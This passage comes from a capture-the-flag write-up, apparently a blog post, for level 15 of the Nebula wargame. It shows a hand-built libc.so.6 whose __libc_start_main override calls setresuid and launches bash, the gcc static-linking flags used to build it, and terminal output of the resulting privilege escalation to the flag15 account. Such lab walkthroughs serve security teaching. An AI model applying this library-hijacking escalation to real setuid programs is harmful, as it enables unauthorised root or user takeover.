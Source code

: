Now another error, which can be solved by static linking options *-Bstatic* and *-static-libgcc*. 
After adding those - the exploit works, but it seems that our user id is wrong:
{{< codecaption lang="sh" title="Flag wrong user id" >}}
level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version.txt,-Bstatic -o libc.so.6 lib.c
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15 
bash-4.2$ getflag
getflag is executing on a non-flag account, this doesn't count
bash-4.2$ id
uid=1016(level15) gid=1016(level15) groups=1016(level15)
bash-4.2$ 
{{< /codecaption >}}

We need to reset the efective user id to the real one with *setresuid()* and capture the flag:
{{< codecaption lang="sh" title="Flag15" >}}
level15@nebula:/var/tmp/flag15$ cat lib.c 
#include <stdio.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    setresuid(geteuid(),geteuid(),geteuid());
    system("/bin/bash");
}
level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version.txt,-Bstatic -o libc.so.6 lib.c
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15 
flag15@nebula:/var/tmp/flag15$ id
uid=984(flag15) gid=1016(level15) groups=984(flag15),1016(level15)
flag15@nebula:/var/tmp/flag15$ getflag 
You have successfully executed getflag on a target account
flag15@nebula:/var/tmp/flag15$ 
{{< /codecaption >}}

[phpexploit]: http://www.madirish.net/402
[race]: https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use
[ld]: (https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)


